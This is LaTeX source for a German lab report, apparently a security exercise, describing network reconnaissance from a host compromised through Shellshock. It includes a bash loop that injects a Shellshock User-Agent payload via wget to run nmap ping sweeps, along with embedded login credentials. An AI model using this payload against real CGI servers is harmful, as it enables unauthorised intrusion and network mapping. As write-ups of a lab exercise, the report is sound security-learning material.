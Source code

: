 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\subsubsection{Einführung}

Den Shellshock ausnützend wurden vom attackierten Host aus Befehle für das Sondieren des Netzwerks ausgeführt, unter anderem:
\begin{itemize}
	\item /sbin/ifconfig
	\item /sbin/route
	\item tracepath
	\item /usr/sbin/arp
	\item nmap
\end{itemize}

Anmerkung: Jene Befehle, welche nicht gleich erkannt wurden, wurden mit "whereis" gefunden.

\subsubsection{Vorgehen}

Zuerst haben wir die IPv4-Netze gescannt. Da ein Scan über die Netze 192.168.0.0/16 und 172.16.0.0/16 einen Timeout mit wget erzeugten, haben wir uns entschlossen, ein Shellscript zu schreiben, welches diese Aufgabe in mehrere kleine Scans zerlegt (Listing ~\ref*{code:scan1}).

\begin{lstlisting}[caption=Scan der IPv4-Netze,label=code:scan1,language=bash,style=simple]
	#!/bin/bash
	for ((z=0;z<=255;z++))
	do
	ip="192.168."${z}".0/24"
	file="net"${z}
	cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; nmap -sP '${ip}';" http://localhost:8805/cgi-bin/search'
	echo ${cmd}
	eval $cmd
	done
\end{lstlisting}

Nach einigen erfolglosen Versuchen, die IPv6-Netze fdcb:172:16:2:1000::/120, fdcb:AC:10:2:1000::/120, fdcb:192:168:98:1000::/120 und fdcb:C0:A8:62:1000::/120 zu scannen sind wir auf die Idee gekommen, ein ifconfig auf dem attackierten Host auszuführen.

Dabei sind wir auf die Tatsache gestoßen, dass der angegriffene Host sich im Netz fdcb:c447:e9d2:3553:1001:: befindet. Daher haben entsprechend diese Netze gescannt (Listing ~\ref*{code:scan2})
\end{document}
